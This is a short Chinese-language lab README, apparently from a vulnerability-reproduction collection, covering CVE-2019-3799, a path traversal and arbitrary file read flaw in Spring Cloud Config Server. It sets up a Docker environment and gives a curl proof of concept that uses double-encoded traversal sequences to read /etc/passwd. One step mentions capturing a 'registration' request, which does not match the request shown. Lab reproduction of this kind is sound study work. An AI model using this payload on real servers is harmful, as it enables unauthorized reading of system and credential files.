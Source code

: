## Spring Cloud Config Server 路径穿越与任意文件读取漏洞分析 - （CVE-2019-3799）

Spring Cloud Config是Spring体系中一个基于http协议的远程配置管理实现方式。 通过统一的配置管理服务器进行配置管理，客户端可以通过https协议主动的拉取服务的配置信息，自动完成配置获取。

参考链接：

- https://xz.aliyun.com/t/4844

## 环境搭建

执行下面命令启动漏洞环境：

```
docker-compose up -d
```

稍等一会，环境启动后，访问`http://your-ip:8888`。

## 漏洞复现

参考前面链接中的Payload，在注册的时候抓包，并修改成如下数据包：


poc
```
curl http://*.*.*.*:8888/test/pathtraversal/master/..%252f..%252f..%252f..%252f../etc/passwd
```


![](1.png)
